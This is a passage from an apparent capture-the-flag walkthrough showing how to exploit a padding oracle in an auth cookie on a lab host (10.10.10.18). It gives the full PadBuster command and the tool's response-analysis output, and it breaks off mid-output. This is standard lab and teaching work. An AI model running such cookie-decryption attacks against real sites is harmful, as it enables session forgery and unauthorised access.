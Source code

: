 For more details with examples, check out [this
post](https://robertheaton.com/2013/07/29/padding-oracle-attack/) or [this
post](https://resources.infosecinstitute.com/padding-oracle-attack-2/).

#### padbuster

With an understanding of how the attack works (or really, even with just the
high level understanding that we can differentiate padding errors from other
errors), there is a tool that will automate this attack,
[PadBuster](https://github.com/AonCyberLabs/PadBuster). I can install with
`apt install padbuster`, and then run it. The usage from the help is:

    
    
    Use: padbuster URL EncryptedSample BlockSize [options] 
    

I’ll run it with the following:

  * [URL] - `http://10.10.10.18/index.php`
  * [EncryptedSample] - `LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U`, a valid cookie, and it’s smart enough to handle that url-encoded `%2F`.
  * [BlockSize] - `8`, from the analysis above; it’ll almost always bee 8 or 16.
  * `-cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U` \- show padbuster where to put the data
  * `-encoding 0` \- base64

I’ll run this, and the first thing it does it try 256 requests and ask me to
say which is the padding error:

    
    
    root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0
    
    +-------------------------------------------+                                           
    | PadBuster - v0.3.3                        |                                           
    | Brian Holyfield - Gotham Digital Science  |                                           
    | labs@gdssecurity.com                      |                                           
    +-------------------------------------------+                                           
    
    INFO: The original request returned the following                                       
    [+] Status: 200                             
    [+] Location: N/A                           
    [+] Content Length: 978                     
    
    INFO: Starting PadBuster Decrypt Mode       
    *** Starting Block 1 of 2 ***               
    
    INFO: No error string was provided...starting response analysis                         
    
    *** Response Analysis Complete ***          
    
    The following response signatures were returned:                                        
    
    -------------------------------------------------------                                 
    ID#     Freq    Status  Length  Location                                                
    -------------------------------------------------------                                 
    1       1       200     1133    N/A         
    2 **    255     200     15      N/A         
    -------------------------------------------------------                                 
    